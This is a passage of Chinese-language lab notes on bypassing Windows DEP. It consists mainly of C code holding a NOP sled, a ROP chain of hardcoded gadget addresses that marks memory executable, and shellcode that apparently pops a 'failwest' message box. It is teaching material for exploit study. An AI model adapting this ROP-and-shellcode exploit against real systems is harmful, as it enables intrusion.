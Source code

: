 注意：
1. 由于实验时参数包含0x00，为了方便，将strcpy改为memcoy
2. 对shellcode内存空间起始地址的确定，不同机器会有变化，本实验用巧妙的栈帧构造动态确定shellcode所在内存空间起始地址

#### 2.2 实验代码

<pre><code>
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;stdio.h&gt;
#include &lt;windows.h&gt;

char shellcode[] = 
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90"
	"\x8A\x17\x84\x7c"			// pop eax retn
	"\x0A\x1A\xBF\x7C"			// pop pop pop retn
	"\xBA\xD9\xBB\x7C"			// 修正EBP
	"\x8B\x17\x84\x7C"			//RETN
	"\x90\x90\x90\x90"			
	"\xBF\x7D\xC9\x77"			// push esp jmp eax(后来成为shellcode起始地址)
	"\xFF\x00\x00\x00"			// 要修改的内存大小
	"\x40\x00\x00\x00"			// 可读可写可执行属性代码
	"\xBF\x7D\xC9\x77"			// push esp jmp eax(后来成为某个可写地址)
	"\x90\x90\x90\x90"
	"\x90\x90\x90\x90"
	"\xE8\x1F\x80\x7C"			// 修改内存属性
	"\x90\x90\x90\x90"
	"\xA4\xDE\xA2\x7C"			// jmp esp
	"\x90\x90\x90\x90"
	"\x90\x90\x90\x90"
	"\x90\x90\x90\x90"
	"\x90\x90\x90\x90"
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
    "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
    "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
    "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
    "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
    "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
    "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8";
